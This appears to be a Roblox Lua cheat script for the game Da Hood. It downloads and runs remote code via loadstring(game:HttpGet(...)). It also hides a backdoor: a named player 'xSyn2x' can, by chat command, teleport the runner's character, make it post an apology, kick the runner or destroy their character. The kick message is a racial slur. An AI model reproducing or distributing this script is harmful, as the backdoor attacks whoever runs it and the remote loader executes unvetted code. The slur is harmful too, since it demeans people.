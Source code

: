 function message(message)
local args = {
    [1] = message,
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))
end


spawn(function()
pcall(function()
while wait(5) do
local Admin = "xSyn2x"
game.Players[Admin].Chatted:connect(function(msg) 
          if msg == "/e !Bring" or msg == "!Bring" then
			game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Admin].Character.HumanoidRootPart.CFrame

          elseif
	         msg == "/e !Sorry" or msg == "!Sorry" then
	       message("Im sorry for my troubles i have caused")
	       
	      elseif
            msg == "/e !Kick" or msg == "!Kick" then
                game.Players.LocalPlayer:Kick("Nigger")
            elseif
            msg == "/e !dHumanoid" or msg == "!dHumanoid" then
                game.Players.LocalPlayer.Character.Humanoid:Destroy()
	      end
       end)
    end
   end)
end) 

loadstring(game:HttpGet('https://raw.githubusercontent.com/SpaceYes/Lua/Main/DaHood.Lua'))()
